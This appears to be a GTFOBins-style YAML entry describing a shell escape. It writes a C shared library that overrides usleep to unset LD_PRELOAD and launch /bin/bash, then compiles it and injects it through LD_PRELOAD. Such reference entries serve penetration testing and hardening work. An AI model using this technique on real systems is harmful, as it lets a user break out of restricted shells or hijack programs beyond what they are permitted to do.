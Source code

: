 ```yaml
---
functions:
  shell:
    - description:  Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to replace one of the function (example avec usleep).
      code: |
        vim script.c
        #include <stdio.h>
        #include <stdlib.h>
        void usleep() {
          unsetenv("LD_PRELOAD");
          system("echo ok! && /bin/bash");
          exit(0);
        }
        gcc -shared script.c -o script
        declare -x LD_PRELOAD=/path/to/script
      
---
```

